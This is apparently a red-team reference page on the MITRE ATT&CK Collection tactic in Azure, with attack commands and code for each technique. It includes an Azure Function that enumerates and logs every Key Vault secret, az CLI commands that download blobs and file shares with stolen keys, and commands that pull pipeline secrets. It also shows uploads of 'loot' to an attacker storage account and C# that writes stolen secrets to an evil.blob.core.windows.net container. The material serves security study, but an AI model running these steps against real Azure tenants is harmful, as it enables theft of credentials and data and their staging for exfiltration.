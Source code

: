 # Collection TA0009

## Overview

In Azure environments, TA0009 – Collection refers to the stage where attackers, after gaining access, begin harvesting sensitive data such as secrets, credentials, configurations, storage contents, and database records. Leveraging Azure-native services like Key Vault, Blob Storage, Azure SQL, and DevOps Repos, adversaries may use legitimate APIs and tools (e.g., Azure CLI, SDKs, or Automation Runbooks) to automate data collection. Common tactics include enumerating all secrets in a Key Vault, dumping blob contents using stolen SAS tokens, extracting credentials from pipeline variables or configuration files, and staging collected data in attacker-controlled or compromised storage accounts. These techniques often blend in with normal cloud operations, making them harder to detect unless proper logging, anomaly detection, and least-privilege access models are in place.

### T1119 – **Automated Collection**

Adversaries abuse Azure Automation, Logic Apps, and Functions to script the collection of data.

#### Attack Examples:

* Create a malicious runbook to collect and exfiltrate Key Vault secrets:

```powershell
az automation runbook create --automation-account MalAuto --name CollectSecrets --type PowerShell
```

* Abuse Logic Apps to pull data from SharePoint, Outlook, or SQL DB:

```json
"trigger": {
  "type": "Recurrence",
  "frequency": "Minute",
  "interval": 5
},
"actions": {
  "get_secret": {
    "type": "Http",
    "inputs": {
      "method": "GET",
      "uri": "https://myvault.vault.azure.net/secrets/SecretName?api-version=7.1"
    }
  }
}
```

* Use Azure Functions as persistent backdoors to automate dumps:

```python
// Timer-triggered function to pull secrets
import logging
import azure.functions as func
from azure.identity import DefaultAzureCredential
from azure.keyvault.secrets import SecretClient

def main(mytimer: func.TimerRequest) -> None:
    if mytimer.past_due:
        logging.warning("The timer is past due!")

    # Replace with your actual Key Vault URI
    key_vault_url = "https://<your-keyvault-name>.vault.azure.net/"

    # Use managed identity or Azure CLI for auth
    credential = DefaultAzureCredential()

    # Initialize SecretClient
    secret_client = SecretClient(vault_url=key_vault_url, credential=credential)

    logging.info(f"[*] Enumerating secrets in: {key_vault_url}")

    # List all secret properties
    try:
        secret_properties = secret_client.list_properties_of_secrets()

        for secret_prop in secret_properties:
            secret_name = secret_prop.name
            secret = secret_client.get_secret(secret_name)

            # Log or exfiltrate the secret value (⚠️ only log for PoC/testing!)
            logging.info(f"[+] Secret: {secret.name} = {secret.value}")

    except Exception as e:
        logging.error(f"[!] Error accessing secrets: {e}")
```

### T1530 – **Data from Cloud Storage Object**

Adversaries access Azure Storage (Blobs, Queues, Files) to collect sensitive data.

#### Attack Examples:

* Use stolen keys or tokens to list and download blob contents:

```powershell
az storage blob list --account-name victimstorage --container-name sensitive --auth-mode key
az storage blob download --container-name sensitive --name db-backup.bak --file loot.bak
```

* Abuse **misconfigured public blobs**:

```bash
# Public URL access without auth
https://victimstorage.blob.core.windows.net/backups/secret.zip
```

* Extract files from **File Shares** (if SMB access is allowed):

```bash
az storage share list --account-name victimstorage
az storage file download --share-name sharedfiles --path finance.xlsx --dest ./finance.xlsx
```

### T1213 – **Data from Information Repositories**

Includes:

* **T1213.001 – Databases**
* **T1213.003 – Code Repositories**

#### 💥 Attack Examples:

**T1213.001 – Azure SQL / Cosmos DB / Table Storage:**

* Query sensitive data post-compromise:

```sql
SELECT * FROM users WHERE is_admin=1;
```

* Abuse leaked connection strings from `local.settings.json` or pipeline variables:

```bash
az cosmosdb sql query --account-name mydb --query "SELECT * FROM Orders"
```

**T1213.003 – Azure DevOps:**

* Clone Git repos to extract hardcoded secrets, tokens:

```bash
git clone https://dev.azure.com/org/project/_git/repo
```

* Pull pipeline secrets and variables:

```bash
az pipelines variable list --org https://dev.azure.com/org --project proj
```

* Search repos for secrets:

```bash
git grep -i "apikey\|password\|secret"
```

### T1074.002 – **Data Staged: Cloud Storage (Remote Data Staging)**

Adversaries temporarily stage stolen data in cloud storage to prep for exfil.

#### 💥 Attack Examples:

* Upload collected loot to attacker-controlled Azure Storage:

```bash
az storage blob upload --account-name evilstore --container-name staging --file secrets.zip --name staging.zip
```

* Use compromised internal storage account as a staging area to blend in:

```bash
az storage blob upload --container-name temp --file ./loot.txt --name creds.txt
```

* Abuse Azure Functions or Logic Apps to write staged data:

```csharp
// Function writes loot to attacker container
var blobClient = new BlobClient("https://evil.blob.core.windows.net/stash/loot.txt", cred);
blobClient.Upload(BinaryData.FromString("stolen secrets"));
```

### ✅ Summary Table

| MITRE Technique                   | Azure Attack Example                                                |
| --------------------------------- | ------------------------------------------------------------------- |
| **T1119** Automated Collection    | Automation Runbooks, Logic Apps, Azure Functions harvesting secrets |
| **T1530** Cloud Storage Object    | Blob listing/downloading via stolen keys or public blobs            |
| **T1213.001** DB Repositories     | SQL/Cosmos DB queries with stolen creds or tokens                   |
| **T1213.003** Code Repos          | Clone repos, extract secrets from Azure DevOps/GitHub               |
| **T1074.002** Remote Data Staging | Upload loot to Azure Storage for exfil or persistence               |
